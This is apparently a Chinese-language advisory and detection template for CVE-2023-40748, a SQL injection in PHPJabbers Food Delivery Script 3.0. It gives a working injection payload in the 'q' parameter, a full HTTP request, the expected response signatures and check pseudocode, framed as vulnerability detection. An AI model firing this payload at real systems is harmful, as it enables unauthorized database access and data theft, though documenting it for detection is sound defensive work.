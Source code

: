 # PHPJabbers Food Delivery Script 3.0 SQL 注入漏洞（CVE-2023-40748）

## 漏洞简介
PHPJabbers Food Delivery Script 3.0 存在 SQL 注入漏洞，攻击者可通过 `index.php` 文件的 `q` 参数注入恶意 SQL 语句，进而执行任意 SQL 命令，造成敏感信息泄露、数据篡改等严重后果。

## 影响范围
- 受影响产品：PHPJabbers Food Delivery Script 3.0
- CPE: `cpe:2.3:a:phpjabbers:food_delivery_script:3.0:*:*:*:*:*:*:*`

## 漏洞原理
后端未对 `q` 参数进行有效过滤，直接拼接到 SQL 查询语句，导致攻击者可通过构造特殊参数实现 SQL 注入。

## 利用方式与攻击流程
1. 攻击者向 `/index.php` 接口发送带有恶意 `q` 参数的 POST 请求。
2. 通过如 `q=-1910') OR 6100=6100#` 等注入语句，利用响应内容回显注入结果，确认漏洞存在。
3. 若验证成功，攻击者可进一步利用漏洞进行数据窃取、篡改等操作。

## 探测原理与流程
### 请求包示例
```http
POST /index.php?controller=pjAdminOrders&action=pjActionGetNewOrder&column=created&direction=ASC&page=1&rowCount=50&q=-1910')+OR+6100=6100%23&type= HTTP/1.1
Host: target.com
Content-Length: 0
```

### 响应示例
```http
HTTP/1.1 200 OK
...
class <strong>pjAdminOrdersaction
...
didn't exists
```

### 判定逻辑
- 响应状态码为 200。
- 响应体中同时包含 `class <strong>pjAdminOrdersaction` 和 `didn't exists`。

### 伪代码
```python
send_post(
    url="/index.php?controller=pjAdminOrders&action=pjActionGetNewOrder&column=created&direction=ASC&page=1&rowCount=50&q=-1910')+OR+6100=6100%23&type=",
    data=""
)
if response.status_code == 200 and "class <strong>pjAdminOrdersaction" in response.text and "didn't exists" in response.text:
    print("存在 SQL 注入漏洞")
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[构造注入请求]
    B --> C[发送 POST 请求]
    C --> D{响应状态码是否为 200?}
    D -- 否 --> E[不存在漏洞]
    D -- 是 --> F{响应体是否包含特征关键字?}
    F -- 否 --> E
    F -- 是 --> G[存在 SQL 注入漏洞]
```

## 参考链接
- [漏洞分析与利用](https://medium.com/@tfortinsec/multiple-vulnerabilities-in-phpjabbers-part-3-40fc3565982f)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2023-40748) 